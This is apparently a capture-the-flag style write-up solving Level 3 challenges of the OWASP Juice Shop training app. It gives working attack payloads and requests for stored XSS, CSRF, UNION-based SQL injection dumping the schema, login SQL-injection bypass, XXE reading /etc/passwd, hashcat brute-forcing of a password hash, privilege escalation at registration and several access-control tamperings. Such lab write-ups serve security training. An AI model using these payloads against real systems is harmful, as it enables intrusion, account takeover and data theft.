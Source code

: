 # Level 3

## API-only XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> without using the frontend application at all._

Following the [Product Tampering](#product-tampering-broken-access-control) challenge, we know we can modify the product
description:
```
PUT /api/Products/1
Content-type: application/json

{"description":"Hello <iframe src=\"javascript:alert(`xss`)\">"}
```

## Admin Registration (Improper Input Validation)
_Register as a user with administrator privileges._

Modify the body of the user registration request (`POST /api/Users/`) by adding `"role":"admin",`:
```
{
  "email": "admin@mail",
  "role": "admin",
  "password": "admin1",
  "passwordRepeat": "admin1",
  "securityQuestion": {
    "id": 1,
    "question": "Your eldest siblings middle name?",
    "createdAt": "2020-08-13T14:12:54.775Z",
    "updatedAt": "2020-08-13T14:12:54.775Z"
  },
  "securityAnswer": "Whatever"
}
```

## Bjoern's Favorite Pet (Broken Authentication)
_Reset the password of Bjoern's OWASP account via the Forgot Password mechanism with the original answer to his security question._

Bjoern's OWASP account email is `bjoern@owasp.org` (looking into Administration).

Google for `bjoern kimminich cat name`.
One of the sources is this YouTube video https://www.youtube.com/watch?v=Lu0-kDdtVf4 (4:20).

The pet's name is `Zaya`

## CAPTCHA Bypass (Broken Anti Automation)
_Submit 10 or more customer feedbacks within 10 seconds._

CAPTCHA is broken. The computation result is bound to `captchaId`.
We can simply bypass it by sending the same id, and the same result over and over again. 

Bash script to send the request 10 times:
```
for i in {1..10}
do
    curl -i -X POST \
        -H 'Content-Type: application/json' \
        --data '{"captchaId":6,"captcha":"14","comment":"AAA (anonymous)","rating":3}' \
        https://vernjan-juice-shop12.herokuapp.com/api/Feedbacks/
done
```

## CSRF (Broken Access Control)
_Change the name of a user by performing Cross-Site Request Forgery from [another origin](http://htmledit.squarefree.com/)._

This **no longer works in modern web browsers**.

The idea is to craft an HTML page similar to this:
```
<form action="YOUR_URL/profile" method="POST">
  <input type="text" id="username" name="username" value="John">
  <input type="submit" value="Submit">
</form> 
<script>document.forms[0].submit();</script>
```

Finally, send a link to this page to a victim. Once the victim visits the link, the form is auto-submitted
by the JavaScript and the victim's name is changed.

If you want to just solve the challenge without installing an old version of a browser,
you can intercept the request for a username change (`POST /profile`)
and add header `Origin: http://htmledit.squarefree.com`.

## Client-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a client-side security mechanism._

The hardest part is to find which field is vulnerable to XSS. For this challenge, you can exclude all fields which
- are not client-side validated,
- and their value is not persisted and shown on some other page.

The vulnerable field is `email` in User registration.

To solve the challenge, tamper with the request and change the email
into ```Hello <iframe src="javascript:alert(`xss`)">```.

## Database Schema (Injection)
_Exfiltrate the entire DB schema definition via SQL Injection._

We already know there's a SQLi vulnerability in the _Login_. Unfortunately, it does not print the returned
data on the screen.

We have 2 options now:
- Do [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
  (using for example [sqlmap](http://sqlmap.org/)) targeting _Login_. It's going to be quite slow.
- Find another SQLi entry which prints data back on the screen.

Searching for `rest/` through the main JS file `main-es2015.js` reveals entry point `/rest/products/search?q=`.
It looks perfect because it returns multiple results and prints them back on the screen.

### Step 1: Is it vulnerable to SQLi?
Let's start with a normal query:
```
GET /rest/products/search?q=Apple

{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "Apple Juice (1000ml)",
      "description": "The all-time classic.",
      "price": 1.99,
      "deluxePrice": 0.99,
      "image": "apple_juice.jpg",
      "createdAt": "2020-08-20 06:11:49.815 +00:00",
      "updatedAt": "2020-08-20 06:11:49.815 +00:00",
      "deletedAt": null
    },
    {
      "id": 24,
      "name": "Apple Pomace",
      "description": "Finest pressings of apples. Allergy disclaimer: Might contain traces of worms. Can be <a href=\"/#recycle\">sent back to us</a> for recycling.",
      "price": 0.89,
      "deluxePrice": 0.89,
      "image": "apple_pressings.jpg",
      "createdAt": "2020-08-20 06:11:49.819 +00:00",
      "updatedAt": "2020-08-20 06:11:49.819 +00:00",
      "deletedAt": null
    }
  ]
}

Response code: 200 (OK); Time: 490ms; Content length: 631 bytes
```

Ok, all good. Now let's try this:
```
GET /rest/products/search?q=Apple'
..
<body>
<div id="wrapper">
    <h1>OWASP Juice Shop (Express ^4.17.1)</h1>
    <h2><em>500</em> SequelizeDatabaseError: SQLITE_ERROR: near &quot;&#39;%&#39;&quot;: syntax error</h2>
    <ul id="stacktrace">
        <li> &nbsp; &nbsp;at Query.formatError (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:422:16)</li>
        <li> &nbsp; &nbsp;at Query._handleQueryResponse
            (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:73:18)
        </li>
        <li> &nbsp; &nbsp;at afterExecute (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:250:31)</li>
        <li> &nbsp; &nbsp;at replacement (/app/node_modules/sqlite3/lib/trace.js:19:31)</li>
        <li> &nbsp; &nbsp;at Statement.errBack (/app/node_modules/sqlite3/lib/sqlite3.js:14:21)</li>
    </ul>
</div>
</body>
</html>

Response code: 500 (Internal Server Error); Time: 333ms; Content length: 1534 bytes
```

Whoops, `SQLITE_ERROR: near "'%'": syntax error`.
There we have our SQLi vulnerability and, on top of that,
we know it's [SQLite](https://www.sqlite.org/index.html) database.

### Step 2: Inject custom query
I had a bit hard time injecting a custom query. Simply commenting out the rest of the original query doesn't work:
```
GET /rest/products/search?q=Apple'--

SequelizeDatabaseError: SQLITE_ERROR: incomplete input
```

The query is incomplete. After a bit of googling I figured out I'm missing closing parentheses:
```
GET /rest/products/search?q=Apple'))--

{
  "status": "success",
  "data": []
}

Response code: 200 (OK); Time: 243ms; Content length: 30 bytes
```

Cool, now we are ready for injection.

### Step 3: Get the number of columns
The next step is to determine the number of columns in the original "Products" table so that we can use `UNION SELECT`
to fetch data from another table.

```
GET /rest/products/search?q=Apple'))+UNION+SELECT+null--

SequelizeDatabaseError: SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns
```

Ok, that's good, we just need to find the correct number of columns.
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null--
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null,null--
..
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null,null,null,null,null,null,null,null--
TypeError: Cannot read property "locale" of null
```

So it's 9 columns. This new error is coming from the application (not database). We can fix it easily
like this:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+'a','b','c',null,null,null,null,null,null--

{
  "status": "success",
  "data": [
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": null,
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    }
  ]
}

Response code: 200 (OK); Time: 301ms; Content length: 165 bytes
```

### Step 4: Where does SQLite store DB schema?
A bit of googling tell us it's `sqlite_master` table.
See [Injecting SQLite database based application](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf).

The most interesting column is `sql`.

### Step 5: Exfiltrate the DB schema
Time to put together the final payload:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+'a','b','c',sql,null,null,null,null,null+FROM+sqlite_master--

{
  "status": "success",
  "data": [
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": null,
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": "CREATE TABLE `Addresses` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `fullName` VARCHAR(255), `mobileNum` INTEGER, `zipCode` VARCHAR(255), `streetAddress` VARCHAR(255), `city` VARCHAR(255), `state` VARCHAR(255), `country` VARCHAR(255), `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `UserId` INTEGER REFERENCES `Users` (`id`) ON DELETE SET NULL ON UPDATE CASCADE)",
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": "CREATE TABLE `BasketItems` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `quantity` INTEGER, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `BasketId` INTEGER REFERENCES `Baskets` (`id`) ON DELETE CASCADE ON UPDATE CASCADE, `ProductId` INTEGER REFERENCES `Products` (`id`) ON DELETE CASCADE ON UPDATE CASCADE, UNIQUE (`BasketId`, `ProductId`))",
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    ..
```

Finally, I extracted the queries into [db-schema.sql](misc/db-schema.sql).
```
cat dump.json | jq .data[].price | tail -n +2 | tr -d '"' > db-dump.sql
```
It will surely come handy later.

## Deluxe Fraud (Improper Input Validation)
_Obtain a Deluxe Membership without paying for it._

Log in as a standard customer (not admin) and pay for the Deluxe membership (in top left menu).

This is the important request:
```
POST YOUR_URL/rest/deluxe-membership
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..
Content-Type: application/json

{"paymentMode":"card"}
```

Create a new user and replay this request with the following body (also update the `Authorization` header):
```
{"paymentMode":""}
```

## Forged Feedback (Broken Access Control) 
_Post some feedback in another users name._

Log in and post a feedback. Then modify `userId` in the request body and resend it.
```
POST /api/Feedbacks/
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9
Content-Type: application/json

{"status":"success","data":{"id":19,"UserId":2,"comment":"AAAAAAA (***in@juice-sh.op)","rating":3,"updatedAt":"2020-08-20T14:08:30.102Z","createdAt":"2020-08-20T14:08:30.102Z"}}
```

## Forged Review (Broken Access Control) 
_Post a product review as another user or edit any user's existing review._

Log in and post a review. Then modify `author` in the request body and resend it.

```
PUT /rest/products/1/reviews
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9
Content-Type: application/json

{"message":"Not Jim's review","author":"jim@juice-sh.op"}
```

## GDPR Data Erasure (Broken Authentication)
_Log in with Chris' erased user account._

Start with solving the [User Credentials](level4.md#user-credentials-injection) challenge.

Now we know that Chris' email is `chris.pike@juice-sh.op`.

Log in as Chris the same way as in the [Login Jim](#login-jim-injection) challenge.

## Login Amy (Sensitive Data Exposure)
_Log in with Amy's original user credentials. (This could take 93.83 billion trillion trillion centuries to brute force, but luckily she did not read the "One Important Final Note")_

Googling for `"One Important Final Note"` points to https://www.grc.com/haystack.htm?1. An interesting technique for making
memorable passwords. 

Read the "One Important Final Note" to understand the core of this challenge. We can assume that Amy's password is short
and padded with `....` to 24 characters (based on the _93.83 billion trillion trillion centuries_ cracking time).

First step is to get Amy's password hash. The same process as in
[Password Strength](level2.md#password-strength-broken-authentication) challenge.

The hash is: `030f05e45e30710c3ad3c32f00de0473`

I used [hashcat](https://hashcat.net/hashcat/) for cracking the password:
```
echo 030f05e45e30710c3ad3c32f00de0473 > hashes.txt
$ hashcat -a 3 -d 3 -m 0 hashes.txt -1 '?l?u?d' '?1?1?1.....................'
..
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 030f05e45e30710c3ad3c32f00de0473
Time.Started.....: Tue Sep  1 16:57:58 2020 (1 min, 11 secs)
Time.Estimated...: Tue Sep  1 16:59:09 2020 (0 secs)
Guess.Mask.......: ?1?1?1..................... [24]
Guess.Charset....: -1 ?l?u?d, -2 Undefined, -3 Undefined, -4 Undefined
Guess.Queue......: 1/1 (100.00%)
Speed.#3.........:     1541 H/s (0.20ms) @ Accel:256 Loops:32 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 108672/238328 (45.60%)
Rejected.........: 0/108672 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#3...: Salt:0 Amplifier:108640-108672 Iteration:0-32
Candidates.#3....: g0h..................... -> K1f.....................
```

- `-a 3` is for brute-force attack
- `-d 3` is for running on my dedicated graphics card
- `-m 0` is for MD5
- `-1 '?l?u?d'` is a custom charset with lower and uppers case letters and digits (see https://hashcat.net/wiki/doku.php?id=mask_attack for details)
- `'?1?1?1.....................'` is a password mask

Once _hashcat_ is done, read the password:
```
$ hashcat hashes.txt --show
030f05e45e30710c3ad3c32f00de0473:K1f.....................
```

Amy's password is `K1f.....................`

## Login Bender (Injection)
_Log in with Bender's user account._

The same as [Login Jim](#login-jim-injection) challenge.

## Login Jim (Injection)
_Log in with Jim's user account._

We need two things: email and password

Email is easy. Once you have the admin access, you can see it in _Administration_. It's `jim@juice-sh.op`.

To bypass the password check, we can use a simple SQL injection:
`jim@juice-sh.op';` or `jim@juice-sh.op'--`

## Manipulate Basket (Broken Access Control)
_Put an additional product into another user's shopping basket._

I found an alternative solution for this challenge which is, however, not recognized as the correct one. 
I created Juice shop bug [#1452](https://github.com/bkimminich/juice-shop/issues/1452).

### 1) Create new basket item
```
POST /api/BasketItems/
Content-type: application/json

{"quantity":3,"ProductId":19}
---
{"status":"success","data":{"id":21,"ProductId":19,"quantity":3,"updatedAt":"2020-08-26T22:22:36.821Z","createdAt":"2020-08-26T22:22:36.821Z"}}
```

The trick here is to delete the `basketId` property! New basket item is created with `null` basketId.
Just to confirm it:
```
GET /api/BasketItems/21
---
{"status":"success","data":{"id":21,"quantity":3,"createdAt":"2020-08-26T22:22:36.821Z","updatedAt":"2020-08-26T22:22:36.821Z","BasketId":null,"ProductId":19}}
```

### 2) Add basket item to basket
Now we can put the basket item into another user's basket (this wouldn't possible if the basket item
had already been in someone's basket):
```
PUT /api/BasketItems/21
Content-type: application/json

{"BasketId":"8"}
---
{"status":"success","data":{"id":21,"quantity":3,"createdAt":"2020-08-26T22:22:36.821Z","updatedAt":"2020-08-26T22:23:45.932Z","BasketId":"8","ProductId":19}}
```

## Payback Time (Improper Input Validation)
_Place an order that makes you rich._

Add some products to your basket and then change the quantity. The following request is sent:
```
PUT /api/BasketItems/9
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.
Content-Type: application/json

{"quantity":5}
```

Change the quantity to a negative number and finish the order.

## Privacy Policy Inspection (Security through Obscurity)
_Prove that you actually read our privacy policy._

While reading the privacy policy, you can notice that some words get highlighted on the mouse hover:
![](images/privacy-policy-hot.png)

Inspect the highlighted word with DevTools and notice that it has CSS class `hot`.
Search for all `hot` classes to get the following words:
```
https://vernjan-juice-shop.herokuapp.com
We may also
instruct you
to refuse all
reasonably necessary
responsibility
```

I had now idea I should turn those words into a link but once I googled for them,
Google spoilt the solution in the search results previews.

Go to https://vernjan-juice-shop.herokuapp.com/We/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility

The response is also weird but maybe it will come to use later?
```
404 Error: ENOENT: no such file or directory, stat '/app/frontend/dist/frontend/assets/private/thank-you.jpg'
```

## Product Tampering (Broken Access Control)
_Change the href of the link within the OWASP SSL Advanced Forensic Tool (O-Saft) product description into https://owasp.slack.com._

We know there's `/api/Products` endpoint. Looking into `/main-es2015.js` or just simply guessing we can discover it also
accepts `PUT` requests.

Let's use it to modify the existing product (id is `9`). Do not forget to add `Content-Type: application/json` header!

```
PUT /api/Products/9
Content-type: application/json

{"description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"}
```

## Reset Jim's Password (Broken Authentication)
_Reset Jim's password via the Forgot Password mechanism with the original answer to his security question._

Given the answer is a common name, it can be easily guessed. I downloaded a list of 200 most common names.
See [names.txt](misc/names.txt).

To automate the guessing process, I used [OWASP Zap Fuzzer](https://www.zaproxy.org/docs/desktop/addons/fuzzer/).

The sibling's name is `Samuel`. 

## Upload Size (Improper Input Validation)
_Upload a file larger than 100 kB._

The file size is validated with JavaScript. We can easily bypass using curl:
```
BEARER='eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..'
curl -v -i -X POST -H "Authorization: Bearer $BEARER" -F 'file=@150kb.txt' https://vernjan-juice-shop.herokuapp.com/file-upload
```

Just make sure the file is not larger than `200 kB` (this is server-side validated).

## Upload Type (Improper Input Validation)
_Upload a file that has no .pdf or .zip extension._

The same as [Upload Size](#upload-size-improper-input-validation) challenge.

## XXE Data Access (XXE)
_Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd` from the server._

Start with [](level2.md#deprecated-interface-security-misconfiguration) challenge.

Upload the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<hello>&xxe;</hello>
```

The response is:
```
410 Error: B2B customer complaints via file upload have been deprecated for security reasons: <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/bin/shbin:x:2:2:bin:/bin:/bin/shsys:x:3:3:sys:/dev:/bin/shsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/bin/shman:x:6:12:man:/var/cache/man:/bin/shlp:x:7:7:lp:/var/spool/lpd:/bin/shmail:x:8:8:mail:/v... (xxe.xml)
```
